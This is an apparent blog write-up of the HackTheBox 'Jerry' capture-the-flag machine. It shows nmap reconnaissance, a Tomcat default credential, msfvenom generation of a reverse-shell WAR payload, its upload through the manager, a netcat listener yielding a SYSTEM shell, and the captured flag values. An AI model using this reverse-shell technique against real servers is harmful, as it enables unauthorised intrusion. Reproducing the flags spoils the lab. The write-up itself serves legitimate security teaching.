



# [](#intro)Introduction

This going to be our last write-up of the year. In that manner, we are going to be tackling the Jerry box in [HackTheBox](https://app.hackthebox.com). From the machine picture, it seems to be a Windows machine. Let's get started!

# [](#level-description)Challenge description

We can take a look at the machine description. Let's take a look:

> Description
>
> Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials. 

Ok! So the machine given to us is running Apacha Tomcat with weak credentials. 

# [](#approach)Approach mindset

As always, let's keep our mindset:

1. Understanding basic concepts
2. Understanding the problem
3. Crafting an attack
4. Solving

However, it is worth noting that for an actual realistic penetration testing, we might adjust some of our steps. We shall call the first step "Recon", since it is where we are going to be performing our reconnaissance.

## [](#mindset-step1)Step 1 - Reconnaissance

Similar to understanding basic concepts, the recon part aims to help us gather information on our target by analyzing what we have on our disposal. For a black box pentest, this is the position we are right now. We first need intel on our target: which ports are open? can we investigate every service available? is there a web service (though this is already answered by the CTF description).

We shall start our recon with `nmap`. I like to start my mapping the network with a simple `nmap`:

```bash
kaizen@celestial /tmp/htb $ sudo nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-31 12:29 UTC
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 19.35 seconds
```

As we can see, there is a webservice running on port 8080. Let's run `nmap` again, but now analyzing this port's info. I'm also wondering if port 22 is open, but Windows' firewall is blocking our pings. So, I ran:

```bash
kaizen@celestial /tmp/htb $ sudo nmap $IP -p 22,8080 -sV -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-31 12:31 UTC
Nmap scan report for 10.10.10.95
Host is up (0.29s latency).

PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
8080/tcp open     http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.72 seconds
```

Alright. We got our Apache Tomcat right there. Port 22 seems to be filtered, which might indicate a firewall behind it. Let's access the web service at `http://$IP:8080`.



It seems we are hacking someone who just installed Apache Tomcat version 7.0.88 on this machine. First thing that glances my eyes is the "Server Status" button. Let's access it:


We get a bunch of nice information here. First, we can see that we are running on a Windows Server 2012 R2 on an amd64 architecture. We also can see that the hostname is "JERRY". Since there is nothing much else here, we can continue our recon through the website manually. After some digging, we find the relative path `/docs/appdev/deployment.html`, which leads to:


This is interesting. It is telling us that to deploy an application in this version, we need to compress it into Web Archive (WAR) format. 

> A web application is defined as a hierarchy of directories and files in a standard layout. Such a hierarchy can be accessed in its "unpacked" form, where each directory and file exists in the filesystem separately, or in a "packed" form known as a Web ARchive, or WAR file. The former format is more useful during development, while the latter is used when you distribute your application to be installed.
>
> To facilitate creation of a Web Application Archive file in the required format, it is convenient to arrange the "executable" files of your web application (that is, the files that Tomcat actually uses when executing your app) in the same organization as required by the WAR format itself. 

Since apps can be deployed, we somehow might be able to see which ones are running or have already deployed in this machine. While looking for it, I stumbled upon a login-style alert box, when trying to access the "Host manager". Since I did not know any credentials, I simply clicked cancel on it, and then, as an error, the server lead me here:


So we have found a pair of credentials that might be the ones needed to access the "Host Manager". The credentials are `tomcat:s3cret`. Even though we have found them, trying to access the "Host manager" with them gives us a 403 response. 

Upon some more investigation, we find this relative path `/manager/html/list`, which leads to this page:



It seems we are able to upload an app directly to the server from the web service. If this is the case, then we might be able to get a reverse shell by deploying an app.

## [](#mindset-step2)Step 2 - Understanding the problem

Alright, it seems we have found our way in with our recon. Let's take a look at what we have found so far:

1. Leaked credentials `tomcat:s3cret` in error pages.
2. Deployment app that accepts WAR files.
3. An upload functionality within the web service.
4. Unaccessible Host Manager page, giving 403.

Now, we might be able to think of an attack vector. We could investigate the unaccessible Host Manager page to see if we find more vectors. However, after some basic attempts, I've found nothing there. Which leads me to think our way in is through a reverse shell. If we manage to deploy a reverse shell app, we might be able to get foothold on the system. 


## [](#mindset-step3)Step 3 - Crafting the attack

For that task, we can use `msfvenom`. A simple Google Search "msfvenom war file" leads to [this](https://charlesreid1.com/wiki/MSFVenom) page. We can see that there is a specific payload for Tomcat. We can generate our payload with:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR IP> LPORT=1234 -f war > shell.war
```

This will create a `shell.war` file that is going to be our revserse shell app. After that, we upload this shell into the web server:



If successful, we are going to see a "OK" message right on the top of the page, underneath "Tomcat Web Application Manager". Now, we need to start listening on port 1234 (or the port chosen as a payload to msfvenom) on our local machine with ```nc -lnvp 1234```.

Now, we simply access `/shell/`, or the name of the app WAR file (without .war), and we shall get access to the machine through netcat:

```bash
kaizen@celestial /tmp/htb $ nc -lnvp 1234
Connection from 10.10.10.95:49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

We not only got access to the machine but also we are logged in as the Windows Administrator!


## [](#mindset-step4)Step 4 - Solving!

Now, we can just retrieve the flags. They are located at `C:\Users\Administrator\Desktop\flags` directory:

```bash
c:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of c:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,418,737,152 bytes free
```

We can easily retrieve them with the command:

```bash
c:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


# [](#conclusions)Conclusion

In this CTF, we adopted a different approach, starting with thorough reconnaissance, and then gaining a foothold in the system. We exploited an Apache Tomcat file upload vulnerability, which provided us with a reverse shell as a Windows Administrator.

With a good recon, finding your way in became trivial in this CTF!

I hope you liked this write-up and learned something new. As always, don't forget to do your **research!**

<a href="/">Go back</a>

